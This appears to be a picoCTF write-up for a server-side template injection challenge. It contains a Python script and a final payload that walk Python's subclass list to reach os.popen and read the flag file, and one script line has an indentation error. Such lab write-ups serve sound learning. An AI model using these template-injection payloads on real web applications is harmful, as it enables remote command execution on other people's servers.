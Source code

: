 curl -I http://shape-facility.picoctf.net:59746/announce

<img width="570" height="88" alt="Screenshot 2025-08-17 at 10 25 59 PM" src="https://github.com/user-attachments/assets/7a865d9f-eefc-4a9d-bcd4-20a8b5ff69b0" />

'''
# Script to craft payload


import requests
import html
import re

url = "ctf-url"
#This payload returns a list of all subclasses of the base Python #object class.
payload = "{{\"\".__class__.__base__.__subclasses__()}}"

#We send the payload to the vulnerable endpoint via a POST request.
r = requests.post(url, data={"content":payload})

#If the request is successful, we decode the HTML content and extract class names using regex.

if r.status_code == 200:
    html_content = r.text
    content_decoded = html.unescape(html_content)
    class_names = re.findall(r"<class '([^']+)'>", content_decoded)
    print(len(class_names))

    #For each subclass index, we craft a new payload to try to access __globals__['sys'] and run a shell command: cat flag.
    for i in range(0, len(class_names)):
        new_paload = "{{\"\".__class__.__base__.__subclasses__()["+ str(i) + "].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}"
        #We send the new payload to the server.
         nr = requests.post(url, data={"content":new_paload})
         #If the response contains the flag, we print the result and stop the script.
        if nr.status_code == 200:
            print(nr.text)
            print("*"*20)
            #This is how we find the first subclass that gives us working access to Python internals, in this case: index 80.
            print("class name: ", class_names[i], "index: ", i)
            exit(0)
'''
payload
'''
{{"".__class__.__base__.__subclasses__()[80].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}
'''
